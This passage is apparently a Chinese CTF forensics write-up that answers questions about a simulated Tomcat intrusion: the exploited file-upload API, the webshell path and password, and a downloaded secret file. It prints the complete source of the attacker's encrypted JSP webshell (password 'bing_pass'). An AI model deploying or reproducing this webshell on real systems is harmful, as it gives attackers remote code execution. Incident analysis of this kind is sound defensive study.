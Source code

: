 ```
Date: Sat, 11 May 2024 10:12:45 GMT
Connection: close

24
{"msg":"........
```

文件名`pic.jpg`

## *黑客利用的漏洞接口的api地址是什么?（http://xxxx/xx)*

文件上传，上传了一个恶意的jsp马,图中见接口

![](./长城杯总决赛.assets/4.png)

## *黑客上传的webshell绝对路径是什么？*

这个没啥好说的，看截图

![](./长城杯总决赛.assets/5.png)

## *黑客上传的webshell的密码是什么？*

bing_pass

```java
[root@centos7 static]# cat s74e7vwmzs21d5x6.jsp 
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("bing_pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

## *黑客通过webshell执行的第一条命令是什么？*

猜的

## *黑客获取webshell时查询当前shell的权限是什么？*

以web打进来的，当然是web程序运行用户的权限了

## *黑客从服务器上下载的秘密文件的绝对路径是什么？*

`/usr/local/tomcat/webapps/ROOT/static/secert.file`  没啥好说的，和马的路径一样

## *黑客通过什么文件修改的root密码（绝对路径*
